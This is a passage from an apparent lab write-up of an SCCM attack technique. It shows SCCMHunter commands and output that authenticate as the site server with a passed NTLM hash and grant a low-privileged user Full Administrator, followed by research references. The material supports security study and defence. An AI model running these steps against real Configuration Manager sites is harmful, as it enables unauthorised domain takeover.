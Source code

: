 6. Use `SCCMHunter` to authenticate to an SMS Provider as the site server and grant a user the Full Administrator role:

```
# python3 sccmhunter.py admin -u SITE-SERVER\$ -p aad3b435b51404eeaad3b435b51404ee:0bce...0314 -ip SITE-SERVER.APERTURE.LOCAL
SCCMHunter v1.0.3 by @garrfoster
[16:27:23] INFO     [!] Enter help for extra shell commands
() C:\ >> show_admins
[16:27:28] INFO     Tasked SCCM to list current SMS Admins.
[16:27:29] INFO     Current Full Admin Users:
[16:27:29] INFO     SITE-SERVER\labadmin
[16:27:29] INFO     APERTURE\labadmin
() (C:\) >> get_user lowpriv
[16:27:47] INFO     [*] Collecting users...
[16:27:47] INFO     [+] User found.
[16:27:47] INFO     ------------------------------------------
                    DistinguishedName: CN=Low Priv,CN=Users,DC=APERTURE,DC=LOCAL
                    FullDomainName: APERTURE.LOCAL
                    FullUserName: Low Priv
                    Mail:
                    NetworkOperatingSystem: Windows NT
                    ResourceId: 2063597573
                    sid: S-1-5-21-1642199630-664550351-1777980924-34102
                    UniqueUserName: APERTURE\lowpriv
                    UserAccountControl: 66048
                    UserName: lowpriv
                    UserPrincipalName: lowpriv@APERTURE.LOCAL
                    ------------------------------------------
() (C:\) >> add_admin lowpriv S-1-5-21-1642199630-664550351-1777980924-34102
[16:28:01] INFO     Tasked SCCM to add lowpriv as an administrative user.
[16:28:02] INFO     [+] Successfully added lowpriv as an admin.
() (C:\) >> show_admins
[16:28:06] INFO     Tasked SCCM to list current SMS Admins.
[16:28:06] INFO     Current Full Admin Users:
[16:28:06] INFO     SITE-SERVER\labadmin
[16:28:06] INFO     APERTURE\labadmin
[16:28:06] INFO     lowpriv
```

## References
- Will Schroeder and Lee Chagolla-Christensen, [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- Oliver Lyak, [Certipy](https://github.com/ly4k/Certipy)
- Microsoft, [Plan for PKI certificates in Configuration Manager](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/security/plan-for-certificates)
